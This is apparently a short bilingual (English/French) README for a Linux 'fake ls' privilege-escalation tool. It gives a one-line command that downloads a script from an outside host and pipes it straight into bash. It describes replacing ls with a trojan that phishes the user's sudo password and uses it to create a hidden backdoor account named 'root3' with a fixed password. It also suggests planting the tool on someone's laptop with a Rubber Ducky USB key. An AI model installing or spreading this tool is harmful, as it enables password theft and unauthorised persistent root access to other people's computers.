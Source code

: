 # fake-ls_privilege-escalation-linux

COMMAND TO INSTALL VIA INTERNET : `wget -qO - script.help.pm/ls.php | bash -`

Replacing the linux LS command for privilege elevation.

You have access to a ROOT session but you don't know the password to run useful commands ?
Run this script on a laptop (a ruber ducky usb key can help) and the LS command will be replaced by a fake LS command. When running LS, it will ask for the sudo password of the user and create with these rights a new user named "root3" with the password "3root".
the LS command is displayed normally after that

command test if is ok : getent passwd root3

## ---FR---

COMMANDE POUR INSTALLER VIA INTERNET : `wget -qO - script.help.pm/ls.php | bash -`

Remplacement de la commande linux LS pour une élévation de privilège.

Vous avez avec un accès sur une session ROOT mais vous ne connaissez pas le mot de pass pour lancer des commandes utiles ?
Lancer ce script sur un pc (une cle usb ruber ducky peut aider) et la commande LS sera remplacer par une fausse commande LS. À l'exécution de LS, cela demandera le mot de pass sudo de l'utilisateur et créer avec ces droits un nouvel utilisateur nommés "root3" avec le mot de pass "3root"
la commande LS s'affiche normalement après cela


ubuntu 20 ans 22 ok